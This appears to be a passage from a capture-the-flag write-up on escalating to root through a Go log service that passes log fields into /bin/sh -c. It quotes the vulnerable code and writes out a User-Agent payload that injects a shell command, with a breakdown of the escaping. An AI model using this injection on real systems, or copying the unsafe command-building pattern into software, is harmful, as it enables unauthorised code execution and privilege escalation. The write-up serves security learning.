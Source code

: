 Now create this on your remote machine and change `log_file_path` variable value based on your malicious log file is present.

If we see the `server.go` file of LogService repo,\
we need to bypass the following line:

```go
logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
exec.Command{"/bin/sh", "-c", logs}
```

Its using regex to get IP address and User-Agent

```go
    ipRegex := regexp.MustCompile(`\b(?:\d{1,3}\.){3}\d{1,3}\b`)
    userAgentRegex := regexp.MustCompile(`"user-agent":"([^"]+)"`)
    outputFile, err := os.Create("output.log")
    if err != nil {
        fmt.Println("Error creating output file:", err)
        return
    }
```

So in our payload we must have an `ip address` and `user-agent`

#### Payload

Our payload will look something like:

```bash
# <IP> "user-agent":"OUR PAYLOAD" rest things
# we need to escape
#"echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)

127.0.0.1 "user-agent":"';/bin/bash /tmp/heap/shell #" 

#breakdown:
"';/bin/bash /tmp/heap/shell #" > this is for %s
' inside is for escaping echo '
; is for running our /bin/bash even if our echo fails
# is for commenting out rest of the line.
```

Keeping all things, let's get root.
